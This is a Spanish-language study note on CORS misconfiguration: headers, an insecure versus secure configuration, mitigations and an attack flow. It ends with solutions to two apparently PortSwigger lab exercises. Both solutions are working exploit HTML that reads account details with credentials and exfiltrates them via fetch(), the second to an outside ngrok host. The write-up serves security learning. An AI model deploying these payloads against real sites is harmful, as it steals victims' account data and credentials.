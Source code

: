 -- -
La vulnerabilidad CORS (Cross-Origin Resource Sharing) se relaciona con una política de seguridad web que permite o restringe cómo los recursos en una página web pueden ser solicitados desde otro dominio. CORS está diseñado para evitar ataques de tipo Cross-Site Scripting (XSS) y Cross-Site Request Forgery (CSRF), pero si no se configura adecuadamente, puede introducir vulnerabilidades.

### ¿Qué es CORS?
CORS es un mecanismo que usa cabeceras HTTP adicionales para dar a un servidor la capacidad de indicar cualquier origen (dominio, esquema o puerto) que tiene permiso para acceder a sus recursos. Por defecto, los navegadores web imponen una política de mismo origen (Same-Origin Policy), que restringe cómo los recursos en una página web se pueden solicitar desde otro origen.

### Funcionamiento de CORS
Cuando una aplicación web realiza una solicitud HTTP a un dominio diferente (cross-origin request), el navegador puede enviar una solicitud preliminar (preflight request) con el método HTTP OPTIONS para verificar si el servidor permite la solicitud. El servidor responde con las cabeceras apropiadas:

- `Access-Control-Allow-Origin`: Indica qué orígenes tienen permiso para acceder al recurso. Puede ser un valor específico (e.g., `https://ejemplo.com`) o un asterisco (`*`) para permitir cualquier origen.
- `Access-Control-Allow-Methods`: Especifica los métodos HTTP permitidos (e.g., `GET`, `POST`, `PUT`).
- `Access-Control-Allow-Headers`: Indica los encabezados que se pueden usar en la solicitud.
- `Access-Control-Allow-Credentials`: Si está presente y es `true`, permite que se envíen credenciales (cookies, autenticaciones HTTP).

### Vulnerabilidad de CORS
Una configuración incorrecta de CORS puede permitir que un atacante realice solicitudes maliciosas desde un origen no confiable. Aquí algunos escenarios comunes de vulnerabilidad:

1. **Permitir todos los orígenes** (`Access-Control-Allow-Origin: *`): Permitir cualquier origen puede exponer datos sensibles si el recurso es accesible sin restricciones adecuadas.
2. **Falta de validación adecuada**: No validar correctamente los orígenes permitidos puede permitir que orígenes no autorizados accedan a recursos sensibles.
3. **Allow-Credentials con Allow-Origin**: Usar `Access-Control-Allow-Credentials: true` junto con `Access-Control-Allow-Origin: *` es peligroso porque permite que cualquier sitio envíe credenciales, lo cual compromete la seguridad.

### Ejemplo de configuración insegura
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
Esta configuración es insegura porque permite que cualquier origen envíe solicitudes autenticadas, lo cual puede llevar a ataques de tipo CSRF.

### Ejemplo de configuración segura
Para una configuración más segura, especifica orígenes de confianza y evita el uso de `*` cuando se permiten credenciales:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```
Aquí, solo `https://example.com` tiene permiso para acceder al recurso y solo mediante métodos `GET` y `POST`.

### Mitigación
Para mitigar las vulnerabilidades de CORS:
- **Restringe orígenes permitidos**: Limita los orígenes a aquellos que son absolutamente necesarios.
- **Valida cabeceras**: Asegúrate de que las cabeceras CORS sean configuradas correctamente.
- **Auditoría y pruebas**: Regularmente audita y prueba la configuración de CORS para detectar posibles fallos.

En resumen, CORS es una herramienta poderosa para controlar el acceso a recursos web entre diferentes orígenes, pero debe configurarse cuidadosamente para evitar introducir vulnerabilidades que puedan ser explotadas por atacantes.

### Cabeceras

Claro, aquí tienes la información en un formato más estructurado:

### Cabeceras Relacionadas con CORS y sus Funciones
```http 
1. 1. Access-Control-Allow-Origin
   - Función: Especifica qué orígenes pueden acceder al recurso.
   - Ejemplo: `Access-Control-Allow-Origin: https://ejemplo.com`

2. Access-Control-Allow-Credentials
   - Función: Indica si las credenciales (cookies, cabeceras de autenticación HTTP) pueden incluirse en las solicitudes a este recurso.
   - Ejemplo: `Access-Control-Allow-Credentials: true`

3. Access-Control-Allow-Methods
   - Función: Especifica los métodos HTTP permitidos cuando se accede al recurso.
   - Ejemplo: `Access-Control-Allow-Methods: GET, POST, PUT`

4. Access-Control-Allow-Headers
   - Función: Indica qué cabeceras HTTP pueden ser usadas en la solicitud.
   - Ejemplo: `Access-Control-Allow-Headers: Content-Type, Authorization`

5. Access-Control-Expose-Headers
   - Función: Indica qué cabeceras pueden ser expuestas al navegador.
   - Ejemplo: `Access-Control-Expose-Headers: Content-Length, X-Kuma-Revision`

6. Access-Control-Max-Age
   - Función: Especifica el tiempo en segundos que los resultados de una solicitud preflight pueden ser almacenados en caché.
   - Ejemplo: `Access-Control-Max-Age: 3600`

7. Access-Control-Request-Method
   - Función: Usada en solicitudes preflight, indica el método HTTP que será usado en la solicitud real.
   - Ejemplo: `Access-Control-Request-Method: DELETE`

8. Access-Control-Request-Headers
   - Función: Usada en solicitudes preflight, indica las cabeceras HTTP que serán enviadas con la solicitud real.
   - Ejemplo: `Access-Control-Request-Headers: X-PINGOTHER, Content-Type`

9. Origin
   - Función: Indica el origen de la solicitud. Esta cabecera es enviada automáticamente por el navegador en solicitudes cross-origin.
   - Ejemplo: `Origin: https://malicioso.com`

Estas cabeceras son fundamentales para la implementación de políticas de seguridad CORS en aplicaciones web, permitiendo o restringiendo el acceso a recursos dependiendo del origen de las solicitudes y las credenciales incluidas.
```
### Diagrama de flujo
[Atacante] --> [Envía script a la víctima]
           ↓
[Víctima] --> [Ejecuta script en navegador]
           ↓
[Navegador] --> [Envia solicitud a servidor objetivo]
             --> [Incluye cookies de la víctima]
           ↓
[Servidor objetivo] --> [Responde con datos sensibles]
           ↓
[Navegador] --> [Envía datos al servidor del atacante]
           ↓
[Servidor del atacante] --> [Recibe datos exfiltrados]


# Solucion a labs: 
-- -
## Lab 1:
```html
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
var url = "https://0a1a007704d32a8281f59fa800410046.web-security-academy.net";

xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE){
        fetch("/log?key=" + xhr.responseText)
    }
}

xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</body>
</html>

```

## Lab 2:
```html
<!DOCTYPE html>
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0a1a007704d32a8281f59fa800410046.web-security-academy.net';

            xhr.onreadystatechange = function () {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch('https://b475-2800-810-505-690-46cf-1896-a812-4ce0.ngrok-free.app/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>"></iframe>
    </body>
</html>

```